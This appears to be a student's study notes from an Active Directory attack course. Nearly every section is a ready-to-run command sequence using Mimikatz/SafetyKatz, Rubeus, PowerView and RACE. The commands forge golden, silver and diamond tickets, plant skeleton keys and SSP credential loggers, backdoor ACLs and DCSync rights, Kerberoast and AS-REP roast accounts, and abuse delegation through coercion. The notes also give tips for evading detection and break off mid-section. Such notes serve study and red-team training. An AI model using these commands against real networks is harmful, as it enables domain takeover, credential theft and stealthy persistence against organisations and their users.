A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket. The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine. ℹ️ As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.
#### 🔪 Commands 1) Execute mimikatz (or a variant) on DC as DA to get krbtgt hashC:\AD\Tools\SafetyKatz.exe '"lsadump::lsa /patch"'
Or To use the **DCSync** feature for getting AES keys for krbtgt account. Use the below command with DA privileges (or a user that has replication rights on the domain object):
<pre><code>C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
</code></pre>
ℹ️ Using the DCSync option needs **no code execution on the target DC**.
C:\AD\Tools\Rubeus.exe golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
- Above command generates the ticket forging command.
Note that 3 LDAP queries are sent to the DC to retrieve the values:
1. To retrieve flags for user specified in /user.
2. To retrieve /groups, /pgid, /minpassage and /maxpassage
3. To retrieve /netbios of the current domain
If you have already enumerated the above values, manually specify as many you can in the forging command (a bit more opsec friendly).
C:\AD\Tools\Rubeus.exe golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-37263689483917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORPDC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
ℹ️ This command is far more comprehensive, aiming for higher authenticity and immediate usability. Besides the core details, it specifies numerous attributes to make the forged ticket appear more **legitimate**.


🥈 Silver Ticket
- A valid Service Ticket or TGS ticket (Golden ticket is TGT).
- Encrypted and Signed by the hash of the service account (Golden ticket is signed by hash of krbtgt) of the service running with that account.
- Services rarely check PAC (Privileged Attribute Certificate).
- Services will allow access only to the services themselves.
- Reasonable persistence period (default 30 days for computer accounts).

🔪 Commands
Forge a Silver ticket:
ℹ️ this RC4 is for the target machine account (Like MyComputer$)C:\AD\Tools\Rubeus.exe silver /service:http/dcorpdc.dollarcorp.moneycorp.local /rc4:6e58e06e07588123319fe02feeab775d /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt - Just like the Golden ticket, /ldap option queries DC for information related to the user.
- Similar command can be used for any other service on a machine. Which services? HOST, RPCSS, CIFS and many more.
💎 Diamond Ticket
A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account. Golden ticket was a TGT forging attacks whereas diamond ticket is a TGT modification attack. A diamond ticket is more opsec safe as it has:- Valid ticket times because a TGT issued by the DC is modified
- In golden ticket, there is no corresponding TGT request for TGS/Service ticket requests as the TGT is forged.

#### 🔪 Commands- We would still need krbtgt AES keys. Use the following Rubeus command to create a diamond ticket (note that RC4 or AES keys of the user can be used too):
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
- We could also use /tgtdeleg option in place of credentials in case we have access as a domain user:
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorpdc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
🦴 Skeleton Key
It involves patching thelsass.exe process on a Domain Controller (DC) to allow any user to authenticate with a pre-defined, universal password
ℹ️ NOT persistent across reboots
#### 🔪 Commands
1) Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges requiredSafetyKatz.exe '"privilege::debug" "misc::skeleton"' ComputerName dcorp-dc.dollarcorp.moneycorp.local
2) Now, it is possible to access any machine with a valid username and password as "mimikatz"
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
ℹ️ Note that Skeleton Key is <span style="color:red;">**NOT**</span> **opsec safe** and is also known to cause **issues** with **AD CS**.
- In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver
mimidriv.syson disk of the target DC:
mimikatz # privilege::debug mimikatz # !+ mimikatz # !processprotect /process:lsass.exe /remove mimikatz # misc::skeleton mimikatz # !-
ℹ️ Note that above would be very noisy in logs - Service installationKernel mode driver
🔁 Directory Services Restore Mode (DSRM)
There is a local administrator on every DC called "Administrator" whose password is the DSRM password. DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed. After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.
#### 🔪 Commands 1)Dump DSRM password (needs DA privs)SafetyKatz.exe "token::elevate" "lsadump::sam"
2) Compare the Administrator hash with the Administrator hash of below command
SafetyKatz.exe "lsadump::lsa /patch"
- Since it is the local administrator of the DC, we can pass the hash to authenticate.
- But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash
3) Use below commands towinrs -r:dcorp-dc cmd reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /fPass-the-hashof DSRM administrator and access the DC:
SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe" Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1 Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
🧩 Custom SSP
A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:- NTLM
- Kerberos
- Wdigest
- CredSSP Mimikatz provides a custom SSP -
mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server.
#### 🔪 Commands
We can use either of the ways:- Drop the mimilib.dll to system32 and add mimilib to
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
- Using mimikatz, inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable)
SafetyKatz.exe -Command '"misc::memssp"'
C:\Windows\system32\mimilsa.log

Persistence using ACLs 📃
🧱 AdminSDHolder
AdminSDHolder is a template object in Active Directory's System container that defines the default permissions for Protected Groups (e.g., Domain Admins). Every hour, SDPROP (Security Descriptor Propagator) compares the ACLs of these protected groups and their members to AdminSDHolder's ACL, overwriting any differences to enforce consistent security.| Protected Groups | |
|---|---|
| Account Operators | Enterprise Admins |
| Backup Operators | Domain Controllers |
| Server Operators | Read-only Domain Controllers |
| Print Operators | Schema Admins |
| Domain Admins | Administrators |
| Replicator |
| Protected Group | Known Abuse |
|---|---|
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups. |
| Backup Operators | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators | Run a command as SYSTEM (using the disabled Browser service). |
| Print Operators | Copy ntds.dit backup, load device drivers. |
- PowerView
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
- ActiveDirectory
[GitHub - RACE](https://github.com/samratashok/RACE)
<pre><code>Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
</code></pre>
- PowerView
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
- For pre-Server 2008 machines
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
- PowerView
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
- ActiveDirectory
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
- PowerView
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
- ActiveDirectory
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
- PowerView
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
- ActiveDirectory
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
📎 Rights Abuse
with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync". #### 🔪 Commands 1) Add FullControl rightsAdd-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
- Using ActiveDirectory Module and RACE
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
- Using ActiveDirectory Module and RACE
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
OR
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
🌵 Security Descriptors
It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users. ℹ️ Administrative privileges are required for this. Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
ACE for built-in administrators for WMI namespaces
A;CI;CCDCLCSWRPWPRCWD;;;SID
- A: Allow
- CI: Container Inherit
- CCDCLCSWRPWPRCWD: Rights granted
- SID: Security Identifier of the user/group
WMI
ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:C:\AD\Tools\RACE-master\RACE.ps11) On local machine for student1:
Set-RemoteWMI -SamAccountName student1 -Verbose
2) On remote machine for student1 without explicit credentials:
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
3) On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
4) On remote machine remove permissions:
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
PowerShell Remoting
Using the RACE toolkit - PS Remoting backdoor not stable after August 2020 patches 1) On local machine for student1:
Set-RemotePSRemoting -SamAccountName student1 -Verbose
2) On remote machine for student1 without credentials:
Set-RemotePSRemoting -SamAccountNam student1 -ComputerName dcorp-dc -Verbose
3) On remote machine, remove the permissions:
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
Remote Registry
1) Using RACE or DAMP, with admin privs on remote machine
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
2) As student1, retrieve machine account hash:
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
3) Retrieve local account hash:
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
4) Retrieve domain cached credentials:
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
🔝 Privilege Escalation
👑 AD Privilege Escalation
🍗 Kerberoasting
Offline cracking of service account passwords. The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack. ℹ️ Because (non-machine) service account passwords are not frequently changed, this has become a very popular attack!
#### 🔪 Commands 1) Find user accounts used as Service accounts (Account withSPN - Service Principal Name)- ActiveDirectory module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
- PowerView
Get-DomainUser -SPN
- Use Rubeus to list Kerberoast stats
Rubeus.exe kerberoast /stats
- Use Rubeus to request a TGS
Rubeus.exe kerberoast /user:svcadmin /simple
- To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
- Kerberoast all possible accounts
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
Use tools like crunch, bopscrk, CeWL or others to generate custom wordlists.
A good collection of wordlists can be found here - GitHub
🎯 Targeted Kerberoasting
📤 AS-REPs
Target: User accounts (including service accounts) that have the Active Directory attribute "Do not require Kerberos preauthentication" (also known asDONT_REQ_PREAUTH or UF_DONT_REQUIRE_PREAUTH) enabled.
ℹ️ By default, pre-authentication is required for most accounts.
ℹ️ With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.

#### 🔪 Commands 1) Enumerating accounts with Kerberos Preauth disabled - Using PowerView:
<pre><code>Get-DomainUser -PreauthNotRequired -Verbose
</code></pre>
- Using ActiveDirectory module:
<pre><code>Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
</code></pre>
Identify a user, modify their `useraccountcontrol` attribute to disable Kerberos pre-authentication, and then enumerate users who have pre-authentication disabled.
- PowerView
<pre><code>Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
</code></pre>
C:\AD\Tools\Rubeus.exe asreproast /user:VPN1user /outfile:C:\AD\Tools\asrephashes.txt 4) We can use John The Ripper to brute-force the hashes offline
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
🔧 Set SPN
With enough rightsGenericAll/GenericWrite, a target user's SPN can be set to anything (unique in the domain).
We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".
#### 🔪 Commands
1) Enumerate- Enumerate the permissions for RDPUsers on ACLs using PowerView:
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
- Using Powerview, see if the user already has a SPN:
Get-DomainUser -Identity supportuser | select serviceprincipalname
- Using ActiveDirectory module:
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
- PowerView
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
- Using ActiveDirectory module:
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
🎭 Kerberos Delegation
Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server". This is typically useful in multi-tier service or applications where Kerberos Double Hop is required. For example, users authenticates to a web server (first hop) and web server makes requests to a database server (second hop). ℹ️ User impersonation is the goal of delegation. There are two types of Kerberos Delegation:
There are two types of Kerberos Delegation:1) General/Basic or Unconstrained Delegation - Allows the first hop (web server in our example) to request access to any service on any computer in the domain.
2) Constrained Delegation - Allows the first hop to request access only to specified services on specified computers. If Kerberos authentication is not used to authenticate to the first hop, Protocol Transition is used to transition the request to Kerberos.
🔓 Unconstrained Delegation
It allows delegation to any service to any resource on the domain as a user. When unconstrained delegation is enabled, the DC places user's TGT inside TGS. On the first hop, the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any other resource as the user. #### 🔪 Commands
1) Discover domain computers which have unconstrained delegation enabled:
#### 🔪 Commands
1) Discover domain computers which have unconstrained delegation enabled:- using PowerView:
Get-DomainComputer -UnConstrained
- Using ActiveDirectory module:
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
2) Compromise the server(s) where Unconstrained delegation is enabled. We must trick or wait for a domain admin to connect a service on appsrv.
- Now, if the command is run again:
SafetyKatz.exe "sekurlsa::tickets /export"
- The DA token could be reused:
Safetykatz.exe "kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"
🚨 Unconstrained Delegation - Coercion
Certain Microsoft services and protocols allow any authenticated user to force a machine to connect to a second machine. As of January 2025, following protocols and services can be used for coercion:| Protocol | Service | Default on Server OS | Ports Required |
|---|---|---|---|
| MS-RPRN | Print Spooler | Yes | 445 (SMB) |
| MS-WSP | Windows Search | No (Default on Client OS) | 445 (SMB) |
| MS-DFSNM (MDI detects this) | DFS Namespaces | No | 445 (SMB) |
 #### 🔪 Commands
1) We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:
#### 🔪 Commands
1) We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:Rubeus.exe monitor /interval:5 /nowrap
2) And after that run MS-RPRN.exe (or other) GitHub - MS-RPRN.exe
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
3) Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM:
Rubeus.exe ptt /tikcet:
4) Once the ticket is injected, run DCSync:
SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt"
🔐 Constrained Delegation with Protocol Transition
Allows access only to specified services on specified computers as a user. Protocol Transition is used when a user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization. To impersonate the user, Service for User (S4U) extension is used which provides two extensions: 1) Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password.2) Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by
msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
 To abuse constrained delegation in above scenario, we need to have access to the
To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.
#### 🔪 Commands
1) Enumerate users and computers with constrained delegation enabled- Using PowerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
- Using ActiveDirectory module:
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
4) After injection, we can run DCSync:
